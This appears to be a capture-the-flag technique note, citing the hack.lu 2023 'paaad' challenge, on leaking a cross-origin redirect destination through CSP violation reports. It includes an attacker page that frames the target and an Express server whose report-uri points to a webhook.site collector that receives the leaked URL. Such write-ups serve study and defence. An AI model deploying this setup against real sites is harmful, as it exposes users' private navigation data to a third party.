 # CSP Violation

Csp violations could be used to leak sensitive information from a website.

A best example is shown in paaad challenge from hack.lu23.

An example is https://xn--pd-viaaa.space/ redirects to another url lets say http://x.com, now lets say that we're hosting a page with the following html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>csp violations</title>
</head>
<body>
    <iframe src="https://xn--pd-viaaa.space/p/latest" frameborder="0"></iframe>
</body>
</html>
```

and lets say the server has the following code

```js
const express = require('express');
const path = require('path');

const app = express();
const port = process.env.PORT || 3000; // Use port 3000 or a provided environment variable

// Serve the index.html file when visiting the root path '/'
app.get('/', (req, res) => {
    res.set('Content-Security-Policy', "frame-src https://xn--pd-viaaa.space/p latest; report-uri https://webhook.site/77ae34c3-9267-462b-a55f-7dac21fb9a36");
    res.sendFile(path.join(__dirname, 'index.html'));
});

// Start the server
app.listen(port, () => {
    console.log(`Server is running on port ${port}`);
});

```

As we can see CSP is being set frame-src as https://xn--pd-viaaa.space/p/latest but in the html we are setting the source of the frame as the same ie https://xn--pd-viaaa.space/p/latest but we know that it'll redirect to http://x.com so that causes a csp violation, and will trigger an error in the console we can use the csp
report-uri to send a port request to our server hence leaking info,such as http://x.com which the user was supposed to go after typing in a paaad in the challenge.

# CSP and Server Side redirects

If csp is set to http://example.com, and on visiting http://example.com we're redirected to http://image.example.com then the CSP is violated and a CSP violation is produced which can captured via ``report-uri``.

If it is redirected to http://example.com/image then that is allowed by the CSP, if the redirect is a server side redirect.